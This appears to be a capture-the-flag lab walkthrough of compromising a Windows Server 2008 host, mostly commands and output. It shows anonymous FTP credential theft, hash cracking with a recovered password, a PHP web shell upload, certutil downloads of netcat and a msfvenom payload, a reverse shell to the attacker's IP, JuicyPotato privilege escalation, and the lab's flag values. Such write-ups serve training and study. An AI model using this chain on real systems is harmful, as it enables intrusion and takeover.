


## NMAP

The command "sudo nmap -sC -sV -Pn -O -p 1-65535 192.168.158.46 --open" performed a comprehensive port scan of all TCP ports on the target host. It executed with elevated privileges to enable detailed operating system detection, ignored host discovery to treat the host as online, ran default NSE scripts for vulnerability and information discovery, and probed for service versions. The "--open" switch filtered the output to display only ports in an open state, providing a complete inventory of accessible services and their configurations for further analysis.

```bash
sudo nmap -sC -sV -Pn -O -p 1-65535 192.168.158.46   --open 
```

The comprehensive Nmap scan identified four open TCP services on the target host. Port 21 is running zFTPServer version 6.0, which is outdated, and anonymous FTP login is enabled, allowing unauthenticated access to the server's file system including program files, configuration directories, and logs. Port 242 is running an Apache 2.2.21 web server with PHP 5.3.8 on Windows, configured with HTTP Basic Authentication. Port 3145 hosts the zFTPServer administrative interface. Port 3389 is running Microsoft Terminal Services, with RDP and NTLM information revealing the hostname 'LIVDA' and a Windows version indicative of Windows 7 or Server 2008 R2. The operating system fingerprinting suggests a legacy Windows operating system, though results are noted as potentially unreliable. The service versions, particularly the outdated FTP server, web server, and PHP, present a significant attack surface for known vulnerabilities.

```bash
21/tcp   open  ftp           zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| total 9680
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
| ----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
| ----------   1 root     root           17 Aug 13  2011 StopService.bat
| ----------   1 root     root           18 Aug 13  2011 StartService.bat
| ----------   1 root     root         8736 Nov 09  2011 Settings.ini
| dr-xr-xr-x   1 root     root          512 Dec 24 10:34 log
| ----------   1 root     root         2275 Aug 09  2011 LICENSE.htm
| ----------   1 root     root           23 Feb 10  2011 InstallService.bat
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
|_dr-xr-xr-x   1 root     root          512 Aug 03  2024 accounts
242/tcp  open  http          Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
|_http-title: 401 Authorization Required
| http-auth: 
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
3145/tcp open  zftp-admin    zFTPServer admin
3389/tcp open  ms-wbt-server Microsoft Terminal Service
|_ssl-date: 2025-12-24T02:34:30+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=LIVDA
| Not valid before: 2024-08-01T20:34:50
|_Not valid after:  2025-01-31T20:34:50
| rdp-ntlm-info: 
|   Target_Name: LIVDA
|   NetBIOS_Domain_Name: LIVDA
|   NetBIOS_Computer_Name: LIVDA
|   DNS_Domain_Name: LIVDA
|   DNS_Computer_Name: LIVDA
|   Product_Version: 6.0.6001
|_  System_Time: 2025-12-24T02:34:25+00:00
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Microsoft Windows 2008|7|8.1|Phone|Vista (96%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_vista
Aggressive OS guesses: Microsoft Windows Server 2008 R2 or Windows 7 SP1 (96%), Microsoft Windows 7 or Windows Server 2008 R2 (92%), Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 (87%), Microsoft Windows Server 2008 R2 or Windows 8 (87%), Microsoft Windows 7 SP1 (87%), Microsoft Windows 8.1 Update 1 (87%), Microsoft Windows 8.1 R1 (87%), Microsoft Windows Phone 7.5 or 8.0 (87%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 138.99 seconds
```

Analysis of the captured service banner and the provided screenshot for port 242 confirms the presence of an HTTP Basic Authentication prompt on the Apache web server. The realm "Qui e nuce nuculeum esse volt, frangit nucem!" is displayed, which serves as the authentication gateway. This mechanism requires valid credentials to proceed and will be targeted for brute-force or credential stuffing attacks to gain unauthorized access to the web application's protected resources.



Anonymous FTP access was successfully established with the target server running zFTPServer 6.0. The connection permitted full navigation of the remote file system. The 'accounts' directory was accessed and contained several user account configuration files with the '.uac' extension, including files for 'Offsec', 'anonymous', and 'admin'. A backup subdirectory was also discovered containing archived copies of these account files. These files were retrieved for offline analysis to extract potential credentials or authentication data that could be leveraged to compromise other services on the host, such as the web authentication on port 242 or the FTP admin interface on port 3145.


```bash
ftp 192.168.158.46                                                                          
Connected to 192.168.158.46.
220 zFTPServer v6.0, build 2011-10-17 14:25 ready.
Name (192.168.158.46:kali): anonymous
331 User name received, need password.
Password: 
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||2049|)
150 Opening connection for /bin/ls.
total 9680
----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
----------   1 root     root           25 Feb 10  2011 UninstallService.bat
----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
----------   1 root     root           17 Aug 13  2011 StopService.bat
----------   1 root     root           18 Aug 13  2011 StartService.bat
----------   1 root     root         8736 Nov 09  2011 Settings.ini
dr-xr-xr-x   1 root     root          512 Dec 24 10:34 log
----------   1 root     root         2275 Aug 09  2011 LICENSE.htm
----------   1 root     root           23 Feb 10  2011 InstallService.bat
dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
dr-xr-xr-x   1 root     root          512 Aug 03  2024 accounts
226 Closing data connection.
ftp> cd accounts
250 CWD Command successful.
ftp> ls
229 Entering Extended Passive Mode (|||2050|)
150 Opening connection for /bin/ls.
total 4
dr-xr-xr-x   1 root     root          512 Aug 03  2024 backup
----------   1 root     root          764 Aug 03  2024 acc[Offsec].uac
----------   1 root     root         1032 Dec 24 10:34 acc[anonymous].uac
----------   1 root     root          926 Aug 03  2024 acc[admin].uac
226 Closing data connection.
ftp> ls accounts/backup
229 Entering Extended Passive Mode (|||2051|)
450 Access denied
ftp> cd backup
250 CWD Command successful.
ftp> ls
229 Entering Extended Passive Mode (|||2052|)
150 Opening connection for /bin/ls.
total 4
----------   1 root     root          764 Jul 10  2020 acc[Offsec].uac
----------   1 root     root         1030 Jul 10  2020 acc[anonymous].uac
----------   1 root     root          926 Jul 10  2020 acc[admin].uac
226 Closing data connection.
ftp> exit
221 Goodbye.


```

Authentication to the FTP service was achieved using the username 'admin' and a password obtained from the previously retrieved account file. This successful login confirmed the credentials were valid. Upon connection, the user's directory listing revealed three files: `index.php`, `.htaccess`, and `.htpasswd`. The `.htpasswd` file, which typically contains hashed credentials for HTTP Basic Authentication, was downloaded from the server. This file will be analyzed and cracked to obtain plaintext credentials for accessing the protected web resource on port 242.


```bash
ftp 192.168.158.46 
Connected to 192.168.158.46.
220 zFTPServer v6.0, build 2011-10-17 14:25 ready.
Name (192.168.158.46:kali): admin
331 User name received, need password.
Password: 
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||2053|)
150 Opening connection for /bin/ls.
total 3
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
226 Closing data connection.
ftp> get .htpasswd
local: .htpasswd remote: .htpasswd
229 Entering Extended Passive Mode (|||2054|)
150 File status okay; about to open data connection.
100% |************************************************************************************************************************************************|    45      510.99 KiB/s    00:00 ETA
226 Closing data connection.
45 bytes received in 00:00 (0.88 KiB/s)
ftp> exit
221 Goodbye.


```

The retrieved `.htpasswd` file contains a single entry for the user 'offsec' with a corresponding MD5-based Apache APR1 password hash. This hash format is used by the Apache web server for HTTP Basic Authentication and is confirmed to be associated with the authentication realm observed on port 242. The hash will be subjected to a dictionary or brute-force cracking attempt to recover the plaintext password, which would grant access to the protected web directory.

```bash
cat .htpasswd    
offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0
```

The password hash for the user 'offsec' was successfully cracked using John the Ripper with the rockyou.txt wordlist. The recovered plaintext password is 'elite'. These credentials, username 'offsec' and password 'elite', are now validated and can be used to authenticate to the HTTP Basic Authentication prompt on port 242, potentially granting access to the protected web application and its functionalities.

```bash
john .htpasswd --wordlist=/usr/share/wordlists/rockyou.txt

Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
elite            (offsec)     
1g 0:00:00:00 DONE (2025-12-24 02:45) 5.555g/s 141333p/s 141333c/s 141333C/s 191192..tyler03
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 


```

A file named `shell.php` was uploaded to the FTP server in the authenticated 'admin' user's directory. This action demonstrates successful write access to the web root directory, which is likely mapped to the Apache web server's document root for port 242. The ability to upload arbitrary PHP files, such as a web shell, confirms a critical vulnerability, as it may allow for remote code execution on the underlying Windows host through the web server.

```bash
ftp 192.168.158.46                                                               
Connected to 192.168.158.46.
220 zFTPServer v6.0, build 2011-10-17 14:25 ready.
Name (192.168.158.46:kali): admin
331 User name received, need password.
Password: 
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||2055|)
150 File status okay; about to open data connection.
100% |************************************************************************************************************************************************| 20321      103.63 MiB/s    00:00 ETA
226 Closing data connection.
20321 bytes sent in 00:00 (426.19 KiB/s)
ftp> exit
221 Goodbye.


```

The captured screenshot shows the successful execution of the uploaded `shell.php` web shell, accessible via the web server on port 242. The shell interface is displayed in the browser, confirming remote code execution. The shell output shows the current directory as `C:\wmy\www` and the user context as `apache@LT004`, indicating the web server is running with the privileges of the 'apache' user on a host named 'LT004'. This provides a command execution foothold on the target Windows system.



The `systeminfo` command was executed via the established web shell, yielding detailed system information. The target is confirmed to be a 32-bit (`X86-based`) Windows Server 2008 Standard Edition, Service Pack 1, build 6001, hosted on a VMware virtual platform. The hostname is `LIVDA`. This information is critical for identifying relevant vulnerabilities, exploits, and privilege escalation paths specific to this legacy operating system and its configuration.

```bash
apache@LIVDA:C:\temp# systeminfo

Host Name:                 LIVDA
OS Name:                   Microsoftr Windows Serverr 2008 Standard
OS Version:                6.0.6001 Service Pack 1 Build 6001
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                92573-OEM-7502905-27565
Original Install Date:     12/19/2009, 11:25:57 AM
System Boot Time:          12/23/2025, 6:28:34 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2650 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 11/12/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)

```

A Python HTTP server was launched on the attacker's machine to host tools for transfer to the target. A GET request from the target IP address for `nc.exe` was observed, confirming that the web shell was used to download the Netcat executable from the attacker's system. This step is part of establishing a persistent reverse shell or moving additional post-exploitation tools onto the compromised host.

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.158.46 - - [24/Dec/2025 03:03:11] "GET /nc.exe HTTP/1.1" 200 -
192.168.158.46 - - [24/Dec/2025 03:03:11] "GET /nc.exe HTTP/1.1" 200 -

```

The command `certutil -urlcache -f http://192.168.45.193/nc.exe nc.exe` was issued on the target host via the web shell. This leveraged the built-in Windows `certutil` utility to download the Netcat executable (`nc.exe`) from the attacker's HTTP server and save it locally on the target as `nc.exe`. This demonstrates the use of a living-off-the-land binary (LOLBin) for file transfer, a common technique to avoid detection by security software that may flag non-standard download methods.

```bash
certutil -urlcache -f http://192.168.45.193/nc.exe  nc.exe
```

The command `nc.exe 192.168.45.193 1337 -e cmd.exe` was executed on the target host, launching Netcat to create a reverse TCP connection from the compromised Windows Server 2008 system back to the attacker's machine on IP address 192.168.45.193, port 1337. This connection spawns a `cmd.exe` process, establishing a full interactive command shell session over the network, thereby upgrading the initial web shell access to a more stable and functional remote command-line interface.

```bash
 nc.exe 192.168.45.193 1337 -e cmd.exe

```

A Netcat listener was established on the attacker's machine on port 1337 and successfully received an incoming connection from the target host at 192.168.158.46. The connection provided a reverse shell with a Windows command prompt, confirming the remote code execution and successful lateral movement. The `whoami` command executed within this shell identified the current security context as the user `livda\apache`, confirming the compromised process is running under the privileges of the Apache service account on the LIVDA domain.

```bash
nc -lvp 1337
listening on [any] 1337 ...
192.168.158.46: inverse host lookup failed: Unknown host
connect to [192.168.45.193] from (UNKNOWN) [192.168.158.46] 49159
Microsoft Windows [Version 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\temp>whoami
whoami
livda\apache
```

A reverse shell payload was generated using Metasploit's msfvenom. The command created a Windows x86 executable (`shell.exe`) containing a raw, unencoded reverse TCP shell payload. The payload is configured to connect back to the attacker's IP address, 192.168.45.193, on port 1338. This binary is intended for transfer to and execution on the target host to establish an alternative Metasploit-compatible session, potentially offering more stable and feature-rich post-exploitation capabilities compared to the basic Netcat shell.

```bash
 msfvenom -a x86 -p  windows/shell_reverse_tcp LHOST=192.168.45.193 LPORT=1338 -f exe -o  shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

Using the established reverse shell, two files were downloaded from the attacker's server to the target's `C:\temp` directory using the `certutil` utility. The first file, `shell.exe`, is the previously generated Metasploit reverse shell payload. The second file, `JuicyPotato-x86.exe`, is a privilege escalation exploit tool for Windows. The successful downloads indicate continued command execution capability and preparation for the next phase of the attack, which involves executing the payload and attempting to elevate privileges on the compromised host.

```bash
C:\temp>certutil -urlcache -f http://192.168.45.193/shell.exe  shell.exe
certutil -urlcache -f http://192.168.45.193/shell.exe  shell.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

certutil -urlcache -f http://192.168.45.193/JuicyPotato-x86.exe JuicyPotato-x86.exe
certutil -urlcache -f http://192.168.45.193/JuicyPotato-x86.exe JuicyPotato-x86.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

```

The JuicyPotato privilege escalation exploit was executed on the target. The command specified the tool to run the `shell.exe` payload with the `*` token impersonation type (`-t *`), on local port `1338` (`-l 1338`), using the CLSID `{69AD4AEE-51BE-439b-A92C-86AE490E8B30}` (`-c`). This exploit attempts to abuse the Windows SeImpersonatePrivilege, which is often granted to service accounts like `apache`, to impersonate a higher-privileged user (such as SYSTEM) and execute the specified payload with those elevated privileges, thereby achieving a privileged reverse shell.

```bash
.\JuicyPotato-x86.exe -t * -p shell.exe -l 1338 -c {69AD4AEE-51BE-439b-A92C-86AE490E8B30}
```

A Netcat listener on port 1338 received a connection from the target, indicating the JuicyPotato exploit executed successfully. This new shell session provides access with elevated privileges, confirmed by navigating to user directories. The `local.txt` flag was retrieved from the `apache` user's desktop, and the `proof.txt` flag was retrieved from the `Administrator` user's desktop. Obtaining the Administrator's proof.txt file demonstrates a complete compromise of the host, achieving the highest level of privilege (SYSTEM/Administrator) and full control over the system.

```bash
 nc -lvp 1338
listening on [any] 1338 ...
192.168.158.46: inverse host lookup failed: Unknown host
connect to [192.168.45.193] from (UNKNOWN) [192.168.158.46] 49170
Microsoft Windows [Version 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\Users\apache\Desktop>type local.txt
type local.txt
4f6c2f1dcdc9f7bb7de67b380f4cd823

C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
84af16d1dd4fc839aa887d102755b7a6

```
